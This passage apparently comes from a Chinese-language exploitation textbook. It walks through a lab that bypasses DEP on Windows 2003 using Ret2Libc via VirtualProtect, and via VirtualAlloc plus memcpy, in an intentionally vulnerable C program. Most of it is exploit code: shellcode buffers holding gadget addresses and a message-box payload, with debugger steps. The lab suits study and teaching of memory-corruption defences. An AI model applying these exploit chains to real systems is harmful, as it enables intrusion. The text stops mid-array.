- lpAddress，要改变属性的内存起始地址。
- dwSize，要改变属性的内存区域大小。
- flNewProtect，内存新的属性类型，设置为 PAGE_EXECUTE_READWRITE（0x40）时该内存页为可读可写可执行。
- pflOldProtect，内存原始属性类型保存地址。

修改内存属性成功时函数返回非 0，修改失败时返回 0。

如果我们能够按照如下参数布置好栈帧的话就可以将 shellcode 所在内存区域设置为可执行模式。

```
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

这里有两个问题需要注意。
- （1）参数中包含 0x00，strcpy 在复制字符串的时候会被截断，所以我们不能攻击 strcpy 函数，本次实验中我们改为攻击 memcpy 函数。
- （2）对 shellcode 所在内存空间起始地址的确定，不同机器之间 shellcode 在内存中的位置可能会有变化，本次实验中我们采用**一种巧妙的栈帧构造方法动态确定 shellcode 所在内存空间起始地址**。
- 上面代码中的0x40 代表一种内存页保护方式，具体可参考：https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants


我们将用如下代码演示如何布置栈帧，并利用 VirtualProtect 函数将 shellcode 所在内存区域设置为可执行状态，进而执行 shellcode。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    "……"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C" //pop eax retn
    "\x0A\x1A\xBF\x7C" //pop pop pop retn
    "\xBA\xD9\xBB\x7C" //修正 EBP
    "\x8B\x17\x84\x7C" //RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\xFF\x00\x00\x00" //修改内存大小
    "\x40\x00\x00\x00" //可读可写可执行内存属性代码
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C" //修改内存属性
    "\x90\x90\x90\x90"
    "\xA4\xDE\xA2\x7C" //jmp esp
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    char str[176];
    memcpy(str,shellcode,420);
}
int main()
{
    HINSTANCEh Inst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

对实验思路和代码简要解释如下。
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。
- （3）覆盖掉函数返回地址后，通过 Ret2Libc 技术，利用 VirtualProtect 函数将 shellcode 所在内存区域设置为可执行模式。
- （4）通过 ```push esp jmp eax``` 指令序列动态设置 VirtualProtect 函数中的 shellcode 所在内存起始地址以及内存原始属性类型保存地址。
- （5）内存区域被设置成可执行模式后 shellcode 就可以正常执行了。

实验环境如表所示:
- 操作系统 Windows 2003 SP2  DEP 状态 Optout
- 编译器 VC++ 6.0
- 编译选项 禁用优化选项
- build 版本 release 版本

首先我们来看看 VirtualProtect 函数的具体实现。


如图 12.3.17 所示，VirtualProtect 只是相当于做了一次中转，通过将进程句柄、内存地址、内存大小等参数传递给 VirtualProtectEx 函数来设置内存的属性。我们不妨选择 0x7C801FE8 作为切入点，按照函数要求将栈帧布置好后转入 0x7C801FE8 处执行设置内存属性过程。

通过图 12.3.17 我们还可以看出从 EBP+8 到 EBP+18 这 16 个字节空间中存放着设置内存属性所需要的参数。
- [EBP+C]和[EBP+10]这两个参数是固定的，我们可以直接在 shellcode 中设置；
- 但[EBP+8]和[EBP+14]这两个参数是需要动态确定的，要保证第一个参数可以落在我们可以控制的堆栈范围内，第二个参数要保证为一可写地址，我们布置 shellcode 的重点也就放在这两个参数上边。

由于 EBP 在溢出过程中被破坏，所以我们需要对 EBP 进行修复，首先我们用 ```PUSH ESP POP EBP RETN 4``` 指令的地址覆盖 test 函数的返回地址，shellcode 如下所示。

```
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"……"
"\x90\x90\x90\x90"
"\xBA\xD9\xBB\x7C"//修正 EBP 
```

编译好程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后单步运行到 RETN 时观察内存状态，如图 12.3.18 所示。


从图 12.3.18 中可以看到在执行完 RETN 4 后 ESP 刚好指向 EBP+8 的位置，如果此时我们能找到类似 MOV [EBP],** POP ** POP ** POP ** RETN 或者 MOV [EBP],** JMP **的指令就可以将要修改属性的内存地址设置为当前堆栈中的某个地址了（为什么后边要跟着 POP？EBP+C~EBP+14 存放着 VitualProtectEx 两个固定参数，我们不能去修改它们）。

很不幸，在内存中没能找到类似的指令。换种思路，如果我们让 ESP 再向下移动 4 个字节，即让 ESP=0x0012FEC0，此时执行一条 PUSH ESP RETN/JMP **指令也是可以达到目的的。大家还记得在上一个实验中我们“曲线救国”使用的 PUSH ESP JMP EAX 指令吧，这里依然适用，只不过我们需要将 EAX 指向的指令修改一下。

稍后我们再讨论 EAX 具体指向什么样的指令，我们先来考虑一下什么样的指令能够让 ESP 向高址方向移动 4 个字节而又不影响程序的控制，大家一定想到了就是 RETN！对，单纯的一个 RETN 指令，即可让 ESP+4 又能够收回程序的控制权。我们按上边的分析布置好 shellcode，shellcode 如下所示。

```c
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "……"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//修正 EBP
    "\x8B\x17\x84\x7C"//RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77"//push esp jmp eax
```

重新编译程序，然后用 OllyDbg 加载程序。在这我们建议依然在 0x7CBBD9BA（调整 EBP入口）处下断点，然后单步运行程序并注意观察堆栈的变化情况，来加深对堆栈调整及布局思路的理解。运行到 JMP EAX 时暂停程序，再来观察当前内存状态。


如图 12.3.19 所示，我们已经成功地将 EBP+0x8 的参数设置为当前堆栈中的某个地址，只要我们再保证 EBP+0x14 处存放的地址为可写地址就大功告成了。如果我们能将 ESP 指向EBP+0x18，就可以再用 PUSH ESP JMP EAX 指令来设置 EBP+0x14 的参数。观察堆栈可知此时 ESP 指向 0x0012FEBC，EBP+0x14 指向 0x0012FEC8，ESP 只需再向高址方向移动 16 个字节就可以指向 EBP+0x18（0x0012FECC）。虽然让 ESP 向低址方向移动而又不影响程序流程的指令不多，但是让 ESP 向高址方向而又不影响程序流程的指令就遍地都是了，大家可以自由发挥组合指令，本次实验我们使用类似 POP POP POP RETN 指令。

有了指令后如何才能让程序去执行呢？从图 12.3.19 中可以看到程序将要执行的指令为 JMP EAX，所以我们只要将 EAX 指向类似 POP POP POP RETN 指令就可以了，大家可以使用 OllyFindAddr 插件中的 Overflow return address→Find POP RETN 功能，在弹出的对话框中输入3 就可以查找到 RETN 前有 3 次 POP 的指令了，如图 12.3.20 所示。


需要注意选择的指令中不能修改 ESP、EBP、EAX，这几个寄存器的值后期都会用到，本次实验我们选择 0x7CBF1A0A 处的``` POP ESI POP EBX POP EDI RETN``` 指令。我们依然采用上个实验中使用的``` POP EAX RETN```指令来将 0x7CBF1A0A 赋值给EAX。到这里利用 VirtualProtect
修改内存属性的关键部分就都搞定了，我们再搞定两个参数就可以实现这个伟大的目标了。
- （1）VirtualProtect 参数之修改内存大小，在这里我们不妨设置为 0x000000FF，255 个字节的空间足够放置弹出对话框的机器码。
- （2）VirtualProtect 参数之内存新属性标志，根据 MSDN 的介绍，这里我们需要设置为 0x00000040。

根据以上分析，我们再来布置 shellcode，如下所示。

```c++
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "……"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn
    "\x0A\x1A\xBF\x7C"//pop pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP
    "\x8B\x17\x84\x7C"//RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77"//push esp jmp eax
    "\xFF\x00\x00\x00"//要修改的内存大小
    "\x40\x00\x00\x00"//可读可写可执行属性代码
    "\xBF\x7D\xC9\x77"//push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C"//修改内存属性
    ;
```

重新编译程序，然后用 OllyDbg 加载程序。继续在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后单步运行程序并注意观察每条指令对于程序流程和堆栈的影响，同时要思考选择该指令的原因，彻底掌握 shellcode 布置技巧。当程序执行到 VirtualProtect 的 RETN 0x10 指令（0x7C801FFC）时暂停程序，再来观察当前内存状态。

如图 12.3.21 所示，EAX 的值为 1，根据 MSDN 的介绍说明我们已经成功修改了内存属性，现在我们可以在 0x0012FEC0~0x0012FEC0+0xFF 的范围内为所欲为了！接下来的布置工作很简单，可以在 0x0012FEE4 位置放置 JMP ESP 指令，并在 RETN 0x10 后 ESP 指向的位置开始放置弹出对话框的机器码，实现 exploit。最终的 shellcode 布局如图 12.3.22 所示。


最终 shellcode 如下所示。

```c
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"……" 
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0A\x1A\xBF\x7C"//pop pop pop retn
"\xBA\xD9\xBB\x7C"//修正 EBP
"\x8B\x17\x84\x7C"//RETN
"\x90\x90\x90\x90"
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\xFF\x00\x00\x00"//修改内存大小
"\x40\x00\x00\x00"//可读可写可执行内存属性代码
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE8\x1F\x80\x7C"//修改内存属性
"\x90\x90\x90\x90"
"\xA4\xDE\xA2\x7C"//jmp esp
"\x90\x90\x90\x90"
"\x90\x90\x90\x90" 
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
; 
```


再次编译程序，用 OllyDbg 加载程序，再次建议您单步运行程序，在执行完 JMP ESP 后您会发现程序转入 shellcode，并且可以在堆栈中执行指令，说明我们已经绕过了 DEP，如图 12.3.23 所示。


继续运行程序就可以看到弹出熟悉的“failwest”对话框啦！

#### Ret2Libc 实战之利用 VirtualAlloc 

除了 VirtualProtect 函数，微软还提供了另一个 API 函数用来解决 DEP 对特殊程序的影响。当程序需要一段可执行内存时，可以通过 kernel32.dll 中的 VirtualAlloc 函数来申请一段具有可执行属性的内存。我们就可以将 Ret2Libc 的第一跳设置为 VirtualAlloc 函数地址，然后将 shellcode 复制到申请的内存空间里，以绕过 DEP 的限制。

我们先来看看 MSDN 上对 VirtualAlloc 函数的说明。
```
LPVOID WINAPI VirtualAlloc(
 __in_opt LPVOID lpAddress,
 __in SIZE_T dwSize,
 __in DWORD flAllocationType,
 __in DWORD flProtect
);
```

函数中各参数的意义为：
- lpAddress，申请内存区域的地址，如果这个参数是 NULL，系统将会决定分配内存区域的位置，并且按 64KB 向上取整。
- dwSize，申请内存区域的大小。
- flAllocationType，申请内存的类型。
- flProtect，申请内存的访问控制类型，如读、写、执行等权限。

内存申请成功时函数返回申请内存的起始地址，申请失败时返回 NULL。

我们将用如下代码演示如何利用 VirtualAlloc 函数申请具有可执行权限的内存，并利用memcpy 函数将 shellcode 复制到申请的内存中执行。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C"
    "\xBA\xD9\xBB\x7C"
    "\x5F\x78\xA6\x7C"
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\xBF\x7D\xC9\x77"
    "\xFF\x00\x00\x00"
    "\xAC\xAF\x94\x7C"//address of  in ntdll.memcpy 
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A"
    "\x38\x1E\x68\x63"
    "\x89\xD1\x4F\x68"
    "\x32\x74\x91\x0C"
    "\x53\xFF\x57\xFC"
    "\x53\xFF\x57\xF8"
    ;

void test()
{
 char tt[176];
 memcpy(tt,shellcode,450);
}
int main()
{
 HINSTANCE hInst = LoadLibrary("shell32.dll");
 char temp[200];
 test();
 return 0;
} 
```

对实验思路和代码简要解释如下。
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。
- （3）覆盖掉函数返回地址后，通过 Ret2Libc 技术，利用 VirtualAlloc 函数申请一段具有执行权限的内存。
- （4）通过 memcpy 函数将 shellcode 复制到 VirtualAlloc 函数申请的可执行内存空间中。
- （5）最后在这段可执行的内存空间中执行 shellcode，实现 DEP 的绕过。


实验环境如下表所示。
- 操作系统 Windows 2003 SP2 
- DEP 状态 Optout
- 编译器 VC++ 6.0 编译选项 禁用优化选项
- build 版本 release 版本


首先我们要能够利用 VirtualAlloc 申请具有执行权限的内存，让我们来分析一下 VirtualAlloc 具体实现流程：
- 从图 12.3.25 中大家可以看到 VirtualAlloc 函数中对各参数的调用与 VirtualProtect 函数如出一辙，因此我们可以选择与上个实验中一致的参数构造方法；
- 但是仔细观察后您会发现二者还是有区别的，VirtualAlloc 各参数不存在动态确定的问题，可以直接写到 shellcode 里边，它的布局要比 VirtualProtect 函数中的布局简单的多。


这次我们将参数直接布置到shellcode中，然后选择 0x7c8245BC CALL VirtualAllocEx处作为切入点，直接申请空间。

关键参数取值：
- lpAddress = 0x00030000，只要选择一个未被占用的地址即可，没有什么特殊要求；
- dwSize = 0xFF，申请空间大小可以根据shellcode的长度确定，这里申请了255个字节；
- flAllocationType = 0x00001000，该值使用0x00001000即可，如有特殊需要可根据MSDN的介绍来设置为其他值。
- flProtect = 0x00000040，内存属性要设置为可读可写可执行，详情可参考[MSDN memory protection constants](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)

由于EBP在溢出过程中被破坏，所以第一步依然是修复EBP，我们用```PUSH ESP POP EBP RETN4```指令的地址覆盖test函数的返回地址，然后按照以上参数布置一个能够申请可执行内存空间的shellcode，shellcode如下所示：

```c
char shellcode [] = 
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\xFF\xFF\xFF\xFF"//-1 当前进程
    "\x00\x00\x03\x00"//申请空间起始地址 0x00030000
    "\xFF\x00\x00\x00"//申请空间大小 0xFF
    "\x00\x10\x00\x00"//申请类型 0x1000
    "\x40\x00\x00\x00"//申请空间访问类型 0x40
    ; 
```

编译好程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 0x7C8245C2（VirtualAlloc 函数的 RETN 0x10）暂停，观察内存状态。

如图 12.3.26 所示，EAX 中是我们申请空间的起始地址 0x00030000，这也说明我们的空间申请成功了，此时通过 OllyDbg 的内存窗口也可以看到我们刚刚申请的空间，而且属性是带 E 的标志！下面就是向这部分内存空间复制 shellcode 了。


开辟了可执行空间后，接下来要将我们的shellcode中的一部分利用内存中已有的memcpy()复制到这个可执行空间去。

大家知道 memcpy 函数位于 ntdll.dll，需要三个参数，依次为目的内存起始地址、源内存起始地址、复制长度，其中目的内存起始地址和复制长度都可以直接写在 shellcode 中，唯一的
难点在于对源内存起始地址的确定。

实际上我们不需要精确的定位，只要保证源内存起始地址在 shellcode 中关键代码的前边即可，因此可以使用 ```PUSH ESP JMP EAX``` 指令来填充这个参数。

如何布置 EAX 想必大家都已经很熟悉，而关于 EAX 具体指向什么指令我们暂时先不讨论。另外一个需要注意的问题，在空间申请后EBP被设置成 0x00000000，而后边我们还会再用到 EBP，所以还需要修复 EBP。最后还需要注意 VirtualAlloc 函数返回时带有 16（0x10）个字节的偏移，要在 shellcode 中要添加相应的填充。shellcode 如下所示。

> 就我的实验环境下，```ret 10```执行后，esp=0012fee8,那么[0012fee8]中应当布置一个可执行指令的地址。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    ; 
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后单步运行到第二次调整完 EBP，然后在返回前暂停，观察内存状态。
如图 12.3.27 所示，修正 EBP 后 ESP 和 EBP 指向同一个位置，而 memcpy 中的源内存地址参数位于 EBP+0x0C，如果我们希望使用 PUSH ESP 的方式设置源内存地址，就需要让 ESP 指向 EBP+0x10，这样执行完 PUSH 操作后 ESP 的值刚好放在 EBP+0x0C。为了达到这个目的有两个问题需要解决：
- ESP 如何指向 EBP+0x10 ?
- PUSH ESP 操作后程序控制权如何回收?

> 说明：这里memcpy函数调用和之前Call virtualAlloc不同，这里设置参数的方式是按下图中的方式传入，即当前EBP+8,EBP+10,EBP+c这3个。


先来解决第一个问题，目前 ESP 指向 EBP 的位置，在执行完 RETN 0x4 指令之后 ESP 指向 EBP+0x8 的位置，此时只需要类似 POP RETN 的指令就以在执行完 RETN 后让 ESP 指向 EBP+0x10。我们就在当前 EBP 的位置放置一条类似 ```POP RETN``` 的指令，本次实验中选择``` POP ECX RET```使ESP再次+0x8，指令地址为 0x7CA6785F。


再来分析第二个问题，在执行完 PUSH 操作后收回程序控制权的最佳位置在 EBP+0x14，因为在这个位置执行 RETN 指令既保证了 memcpy 参数不被破坏，又可以减小 shellcode 长度。故在执行完 PUSH 操作后我们只需要 POP 两次就可以让 ESP 指向 EBP+0x14，所以 JMP EAX 指令中的 EAX 只要指向类似 POP POP RETN 指令即可。然后在 EBP+0x14 位置放置 memcpy
函数的切入点 0x7C94AFAC（```MOV ESI,DWORD PTR SS:[EBP+C]```），这样程序在执行类似 ```POP POP RETN``` 指令中 RETN 时就可以转入 memcpy 函数中执行复制操作了。

我们按照以上分析和 memcpy 对参数的要求来布置 shellcode，代码如下所示。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x90\x90\x90\x90"
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    ; 
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 memcpy 函数复制结束返回前暂停，观察内存状态。

如图 12.3.28 所示，执行完复制操作后，memcpy 函数在返回时 ESP 指向了我们 shellcode 中的某个位置，幸运的是这个位置还没有被占用，只是放置了填充字符。通过它周围的数据我们可以判断出这个位置位于 shellcode 中 ```POP POP RETN``` 指令地址和 memcpy 参数之间，并且紧挨着 memcpy 第一个参数，所以这个位置就很容易确定了，只要在这个位置填上申请的可执行内存空间起始地址，就可以转入该内存区域执行了。


我们似乎还没有放置弹出对话框的机器码。通过图 12.3.28 中 memcpy 参数可以看出，复制操作的源内存起始地址为 0x0012FF00，这个位置也是 memcpy 函数的复制长度参数所在位置，所以只要在它后边放置对话框的机器码即可。按照以上分析重新布置一个完整的 shellcode，对于其中的一些填充我们稍后解释说明，如图 12.3.29 


```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
